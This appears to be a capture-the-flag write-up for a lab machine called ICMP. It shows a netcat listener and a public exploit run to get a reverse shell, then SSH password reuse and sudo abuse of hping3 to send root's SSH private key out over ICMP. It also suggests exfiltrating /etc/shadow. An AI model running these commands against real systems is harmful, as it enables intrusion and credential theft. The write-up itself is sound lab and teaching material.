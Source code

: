 # ICMP 

![](Screenshots/2023-05-20-08-41-33.png)

![](Screenshots/2023-05-20-08-41-55.png)

https://www.exploit-db.com/exploits/48980


By looking at the code we can run as is, no need to specify edit anything in the exploit itself so we can just set up a listener `nc -lvnp <lport>` and run the exploit by specifying the url lhost lport `./expl.py <IP>/mon <lhost> <lport>` and we get a www-data shell, I ussually like to stabilize my shells. `python3 -c 'import pty;pty.spawn("/bin/bash")'`

We can't really expect to do much with www-data , so let's just check straight away if there are any users setup in /home. `ls -al /home` and there is one - fox

![](Screenshots/2023-05-20-08-50-06.png)

we can also list fox's contents:

![](Screenshots/2023-05-20-08-51-13.png)

local is readable and so is reminder, let's cat both:

local contains the 1st flag
and reminder points us in a potential new direction.

```
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

we can't list devel directory but we can execute anything in it, and as we already have a clue with crypt.php might aswell check if that's within devel directory and it is...

by catting that we see that it encrypts a string witht he key "da". since we already have a plaintext unencrypted string, let's see if it's fox's password by trying to ssh in as fox.

`ssh fox@<IP>`

and we are in. Since we know the password might aswell check sudo -l.

and we can run /usr/sbin/hping3 --icmp * as root.
Initial thought is to run shell with preserved privs, but since we can't run raw hping3 but rather hping3 --icmp, that's a no-go. so let's visit GTFOBins for some insight.

![](Screenshots/2023-05-20-08-58-23.png)

So Looks like we can send some packets. Here you could send it to yourself on your local machine or on the same machine, by SSH'ing into fox again with another session.
Which ever approach you choose you could just cheese the 2nd flag by sending it since it's always named proof.txt on /root or you could do it properly and get root access one way could potentially be sending /etc/shadow and trying to crack the password, second would check and see if root has .ssh and get it's id_rsa. As my cracking speeds are abysmal I'll go with the id_rsa approach first.

-- SSH instance 1
`sudo /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe`

-- SSH instance 2
`sudo /usr/sbin/hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 6000 -c 1`

After getting the id_rsa , write a file with it's content's name it chmod to 600 or 400 either works and ssh into root.
`ssh root@<IP> -i id_rsa`

![](Screenshots/2023-05-20-09-05-10.png)

and we have the root flag aswell.

![](Screenshots/2023-05-20-09-08-29.png)

